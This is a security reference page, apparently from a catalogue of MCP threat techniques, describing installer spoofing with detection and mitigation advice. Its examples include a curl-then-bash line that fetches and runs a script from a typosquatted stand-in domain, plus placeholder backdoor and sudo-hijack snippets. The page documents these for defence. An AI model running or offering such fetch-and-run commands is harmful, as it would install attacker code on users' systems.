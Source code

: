 ```yaml
---
layout: default
title: "Installer Spoofing"
permalink: /ttps/supply-chain/installer-spoofing/
nav_order: 4
parent: "Supply Chain & Dependencies"
grand_parent: "MCP Security TTPs"
---
```


# Installer Spoofing

**Category**: Supply Chain & Dependencies  
**Severity**: High  
**MITRE ATT&CK Mapping**: T1036 (Masquerading)

## Description

Fake or malicious MCP installers that compromise systems during installation, enabling attackers to gain system access through deceptive installation processes.

## Technical Details

### Attack Vector
- Fake installer distribution
- Malicious installer creation
- Installer modification
- Installation process compromise

### Common Techniques
- Installer impersonation
- Malicious installer creation
- Installer backdooring
- Installation hijacking

## Impact

- **System Compromise**: Malicious code execution during installation
- **Persistent Access**: Long-term system access through installer
- **Data Theft**: Access to system data during installation
- **Privilege Escalation**: Administrative access through installer

## Detection Methods

### Installer Analysis
- Analyze installer integrity
- Verify installer signatures
- Monitor installer behavior
- Detect malicious installers

### Installation Monitoring
- Monitor installation processes
- Track installer activities
- Detect suspicious behavior
- Analyze installation patterns

## Mitigation Strategies

### Installer Verification
- Verify installer authenticity
- Use digital signatures
- Implement installer validation
- Monitor installer sources

### Installation Security
- Use secure installation processes
- Implement installation monitoring
- Deploy installer sandboxing
- Monitor installation behavior

## Real-World Examples

### Example 1: Fake Installer
```bash
# Legitimate installer
curl -O https://official-mcp.com/install.sh
bash install.sh

# Malicious installer
curl -O https://0fficial-mcp.com/install.sh  # Typosquatting domain
bash install.sh  # Executes malware
```

### Example 2: Installer Backdooring
```python
# Legitimate installer code
def install_mcp_server():
    download_packages()
    configure_server()
    start_service()

# Backdoored installer
def install_mcp_server():
    download_packages()
    configure_server()
    # Malicious backdoor
    install_backdoor()
    start_service()
```

### Example 3: Installation Hijacking
```bash
# Legitimate installation
sudo ./mcp-installer

# Malicious hijacking
# Attacker replaces installer with malicious version
sudo ./mcp-installer  # Executes malicious code with sudo privileges
```

## References & Sources

- **Academic Paper** - "Model Context Protocol (MCP): Landscape, Security Threats, and Future Research Directions"

## Related TTPs

- [Malicious MCP Packages](malicious-mcp-packages.md)
- [Typosquatting](typosquatting.md)
- [Supply Chain Attacks](supply-chain-attacks.md)

---

*Installer spoofing attacks exploit the trust users place in installation processes to compromise systems during software installation.*